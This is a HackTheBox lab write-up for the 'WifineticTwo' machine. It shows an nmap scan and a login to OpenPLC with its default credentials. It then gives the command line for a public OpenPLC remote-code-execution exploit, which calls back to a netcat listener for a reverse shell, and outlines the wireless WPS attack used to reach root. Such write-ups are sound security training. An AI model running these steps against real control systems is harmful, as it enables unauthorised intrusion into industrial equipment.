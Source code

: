 # WifineticTwo
Sunday Funday came early tonight. Was able to work on a box before midnight which was nice!

Metadata:
- OS: Linux
- Difficulty: Medium
- Status: Active
- IP: 10.10.11.7

## Recon
```bash
# Nmap 7.94SVN scan initiated Wed Mar 27 22:22:11 2024 as: nmap -T5 --open -sS -vvv --min-rate=300 --max-retries=3 -p- -Pn -oN all-ports-nmap-report 10.10.11.7
Nmap scan report for 10.10.11.7
Host is up, received user-set (0.073s latency).
Scanned at 2024-03-27 22:22:11 CDT for 22s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done at Wed Mar 27 22:22:33 2024 -- 1 IP address (1 host up) scanned in 21.47 seconds
```

### Visting Website
We see the website is using OpenPLC and of course it uses default credentials of `openplc/openplc`. Boom logged in.

### Searching ExploitDB proved successful
`https://www.exploit-db.com/exploits/49803` Looks like there is a PoC for injecting the reverse shell code from a program loaded by a user. Shoutout to FELLIPE OLIVEIRA for the script!

This made for an easy access to the box!
Before I run the script, in a separate shell I run `nc -lnvp 4444`

```bash
python exploit.py -u http://10.10.11.7:8080 -l openplc -p openplc -i 10.10.14.2 -r 4444
[+] Remote Code Execution on OpenPLC_v3 WebServer
[+] Checking if host http://10.10.11.7:8080 is Up...
[+] Host Up! ...
[+] Trying to authenticate with credentials openplc:openplc
[+] Login success!
[+] PLC program uploading...
[+] Attempt to Code injection...
[+] Spawning Reverse Shell...
```

## User Flag
Also, I'd like to thank [Maxat Akbanov](https://maxat-akbanov.com/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal) I'm always googling how to stabalize a shell and come to this article!
Once the shell connects, I use Maxat's commands to stabalize the shell.

`cat /root/user.txt`

## Root Flag
At this point, we actually got stuck and had to look up help. Fortunately, [Mr. Bandwidth](https://mrbandwidth.medium.com/wifinetictwo-writeup-walkthrough-htb-hackthebox-remote-code-execution-33b501b69579) had a solution. Thank you!

We were so close to not needing assistance, but we didn't think/realize this box would need wireless hacking. This is also where things sort of went out of sync. We kept crashing the box and had to retry.

So without having to repeat, we essentially followed Mr. Bandwidth commands verbatim. The things we learned was how to search for a wireless network and find a PoC for WPS 1.0. Running the command to get the PSK was trivial.

Unfortunately, trying to get connected kept causing errors.

Some of the errors we saw:
- accidentally setting a Device interface
- trying to use DHCP

After the 3rd lockout, we just followed his suggestion of manually setting an IP and trying to ssh to the default router IP which happened to be `ssh root@192.168.1.1` Unsure, if that is a common IP for a wireless network. Something to research.

`cat /root.txt` as soon as you get on the router


# Final Thoughts
This box was honestly not difficult if you proactively search Exploit-DB and PoC for the tool being used (sources lik github for example). Having access to an RCE and seeing default credentials work. Made this first part a joke.

The difficulty came in trying to get onto the wireless network which was 100% new to me. Learned a lot of stuff, definitely recommend trying yourself.



